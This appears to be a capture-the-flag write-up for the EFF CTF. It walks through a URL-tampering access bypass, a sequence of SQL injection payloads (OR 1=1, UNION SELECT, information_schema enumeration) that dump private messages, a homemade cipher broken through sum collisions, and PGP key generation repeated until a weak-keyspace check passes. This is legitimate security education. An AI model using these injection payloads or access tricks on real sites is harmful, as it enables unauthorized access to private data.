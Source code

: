 # Capture The Flag by EFF
https://eff-ctf.org

### Level 0 The Social Notwork

Your inbox:

https://level0x0.eff-ctf.org/user/M1k3y/message/1

Replace user with usdhs for:

https://level0x0.eff-ctf.org/user/usdhs/message/1

Level 1 Tweeting Twerps

If there's no results or an error within the SQL statement, you will receive the message "Your SQL is bad and you should feel bad". 

The following lists all tweets and indicates that the form is vulnerable:
```
https://level0x1.eff-ctf.org/tweets?uid=1 OR 1=1--
```

Doing a union select, there are no errors received with two nulls, this indicates the correct number of columns to use:

```
https://level0x1.eff-ctf.org/tweets?uid=3 UNION SELECT null, null--
```

Testing string concatenation further indicates it's a MySQL DB:
```
https://level0x1.eff-ctf.org/tweets?uid=3 UNION SELECT null,'test'+'ing'--
```

Enumerating:

Database:
```
https://level0x1.eff-ctf.org/tweets?uid=3 UNION SELECT null,database()--
```
Tables:
```
https://level0x1.eff-ctf.org/tweets?uid=1 UNION SELECT null, table_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema'
```
Columns:
```
https://level0x1.eff-ctf.org/tweets?uid=1 UNION SELECT null, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema'
```

Finally, using this information we get the flag in the following private messages:
Private messages:
```
https://level0x1.eff-ctf.org/tweets?uid=1 UNION SELECT null, body FROM messages--
```

![](/images/level1.png)


### Level 2 Reverse Engineering for Fun and No Profit

### Level 3 Never Roll Your Own Crypto

My first incorrect approach was to build a sort of rainbow table.  Keep a hash table with the key as ascii characters, and values as a massive list of ciphers. Keep making requests until you start to receive duplicates.  In theory, this would work.

Correct approach:
Each ascii character produces a random 4 set sized list of integers.  The sum will always be the same.  Create a hashtable  and use the summed value as your key and ascii character as your value.  See level3.py for a rough working solution.

```
$ python level3.py
This week's decryption passphrase is: Don't BULLRUN me bro!
```

### Level 4 A Mole in the Ranks

Go to: 
https://www.igolder.com/pgp/generate-key/

and generate a public and private key with the following e-mail:

Dept of National Security Agent <agent@dns.spy>

Use:  https://level0x4.eff-ctf.org/easyverify to verify that the key returns 'blue'.  You may need a handful of tries generating keys.

![](/images/level4.png)

Plug in the key, and you will receive an encrypted pgp message.  Import the private key you generated before, and decrypt the message for the flag.

```
$ gpg -d enc.txt

You need a passphrase to unlock the secret key for
user: "Dept of National Security Agent <agent@dns.spy>"
2048-bit RSA key, ID E0D72684, created 2016-01-27

gpg: encrypted with 2048-bit RSA key, ID E0D72684, created 2016-01-27
      "Dept of National Security Agent <agent@dns.spy>"
Great, we have a secure channel. Here is the thing I wanted to tell you so badly.

The flag is: Tiny Keyspace is Bad 4 Business
gpg: WARNING: message was not integrity protected
```


